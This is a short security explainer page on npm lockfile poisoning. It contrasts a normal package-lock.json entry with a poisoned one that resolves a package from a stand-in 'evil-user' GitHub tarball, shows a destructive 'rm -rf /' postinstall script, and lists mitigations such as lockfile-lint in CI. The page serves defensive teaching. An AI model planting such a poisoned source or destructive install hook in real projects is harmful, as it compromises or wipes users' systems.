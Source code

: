 ```yaml
---
name: Lockfile
menu: Attacks explained
route: /attacks_explained/lockfile
---
```


# Lockfile Attack

## The Attack

This attack is very specific to the Nodejs ecosystem and it [was discovered in 2019](https://snyk.io/blog/why-npm-lockfiles-can-be-a-security-blindspot-for-injecting-malicious-modules/) by [Liran Tal](https://twitter.com/liran_tal).

It is quite common to include external dependencies in Nodejs. The ecosystem is heavily based in [NPM Registry (+1M packages)](https://www.npmjs.com/).

Most projects manage their dependencies using the Npm official client or Yarn. A few years ago, both tools introduced the lockfile concept to the ecosystem (`package-lock.json` and `yarn.lock`).

If the project has a lockfile available, the package manager will install the dependencies from the lockfile as the primary source of truth. This lead us to a new vector where a malicious actor can submit a poisonous dependency through the lockfile as most of maintainers don't review the lockfiles during the PR Reviews.

This is a regular `package-lock.json`.

```json
{
  "name": "my-project",
  "version": "0.0.1",
  "lockfileVersion": 1,
  "requires": true,
  "dependencies": {
    "@babel/code-frame": {
      "version": "7.8.3",
      "resolved": "https://registry.npmjs.org/@babel/code-frame/-/code-frame-7.8.3.tgz",
      "integrity": "sha512-a9gxpmdXtZEInkCSHUJDLHZVBgb1QS0jhss4cPP93EW7s+uC5bikET2twEF3KV+7rDblJcmNvTR7VJejqd2C2g==",
      "dev": true,
      "requires": {
        "@babel/highlight": "^7.8.3"
      }
    }
    //...
  }
}
```

The malicious attack takes place when the `resolved` and `integrity` are not corresponding to official sources:


```json
{
  "name": "my-project",
  "version": "0.0.1",
  "lockfileVersion": 1,
  "requires": true,
  "dependencies": {
    "@babel/code-frame": {
      "version": "7.8.3",
      "resolved": "https://github.com/evil-user/code-frame/tarball/master",
      "integrity": "sha512-VT0ZI6kZRdTh8YyJw3SMbYm/u+NqfsAxEpWO0Pf9sq8/e94WxxOpPKx9FR1FlyCtOVDNOQ+8ntlqFxiRc+r5qA==",
      "dev": true,
      "requires": {
        "@babel/highlight": "^7.8.3"
      }
    }
    //...
  }
}
```

So the risk in this case is that `@babel/code-frame` is not installed from the NPM registry. This can lead to many attacks based on the npm lifecycle (pre-install, post-install...)

As an example of malicious script added in the poisoned version of `@babel/code-frame`
```
"scripts": {
   "postinstall": "rm -rf /",
}
```

## The solution

There are no definitive solutions to avoid this attack, but it can be highly mitigated.

## Mitigation

- Always review the lockfiles in the PRs.
- Use a tool to check the lockfile sources enables like `lockfile-lint`
    ```bash
    npx lockfile-lint --path yarn.lock --type yarn --validate-https --allowed-hosts yarnpkg.org
    ```
- Include the validation tools in the CI process (testing phase and security checks)
- Optional: You can include the sources validation with Git Hooks too (using Husky)


### Refs
- [Snyk | What is package lock json and how a lockfile works for yarn and npm packages?](https://snyk.io/blog/what-is-package-lock-json/)
- [Snyk | Why npm lockfiles can be a security blindspot for injecting malicious modules](https://snyk.io/blog/why-npm-lockfiles-can-be-a-security-blindspot-for-injecting-malicious-modules/)
- [Medium | Everything You Wanted To Know About package-lock.json But Were Too Afraid To Ask](https://medium.com/coinmonks/everything-you-wanted-to-know-about-package-lock-json-b81911aa8ab8)
